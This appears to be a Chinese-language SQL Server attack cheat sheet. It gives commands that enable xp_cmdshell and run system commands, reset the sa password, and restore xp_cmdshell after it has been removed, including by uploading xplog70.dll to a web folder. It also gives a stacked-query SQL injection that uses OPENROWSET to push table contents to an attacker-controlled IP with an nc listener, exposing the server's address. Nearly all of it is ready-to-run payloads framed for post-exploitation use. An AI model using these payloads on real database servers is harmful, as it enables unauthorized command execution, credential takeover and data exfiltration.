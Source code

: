 
sql server 2008下开启xp_cmdshell的方法

-- To allow advanced options to be changed.
EXEC sp_configure 'show advanced options', 1
GO
-- To update the currently configured value for advanced options.
RECONFIGURE
GO
-- To enable the feature.
EXEC sp_configure 'xp_cmdshell', 1
GO
-- To update the currently configured value for this feature.
RECONFIGURE
GO

exec xp_cmdshell 'ipconfig'

今天想到修改下数据库服务器的sa登陆密码，可突然忘记了，只好借助其他账户打开查询分析器修改sa的密码了，很简单：

执行：
sp_password Null,'teracypwd,'sa'
把SA的密码设为“teracypwd”

执行成功后有“Command(s) completed successfully.”  OK!
 



在db权限并且分离获取mssql数据库服务器ip的方法

1.本地nc监听   nc -vvlp 80

2.;insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=xxx;Network=DBMSSOCN;Address=你的ip,80;', 'select * from dest_table') select * from src_table;--

select * from openrowset('sqloledb','server=125.110.145.130,6789;uid=sa;pwd=zhu','select user;')



xp_cmdshell的删除及恢复

恢复xp_cmdshell的方法   
删除扩展存储过过程xp_cmdshell的语句   
exec sp_dropextendedproc ’xp_cmdshell’   

恢复cmdshell的sql语句   
exec sp_addextendedproc xp_cmdshell ,@dllname =’xplog70.dll’   

exec master.dbo.addextendedproc ’xp_cmdshell’,’xplog70.dll’;select count(*) from master.dbo.sysobjects where xtype=’x’ and   
返回结果为1就ok   

否则需上传c:\inetput\web\xplog70.dll后   
exec master.dbo.sp_addextendedproc ’xp_cmdshell’,’c:\inetput\web\xplog70.dll’;--   

如果是用以下方法删除   
drop procedure sp_addextendedproc   
drop procedure sp_oacreate   
exec sp_dropextendedproc ’xp_cmdshell’   
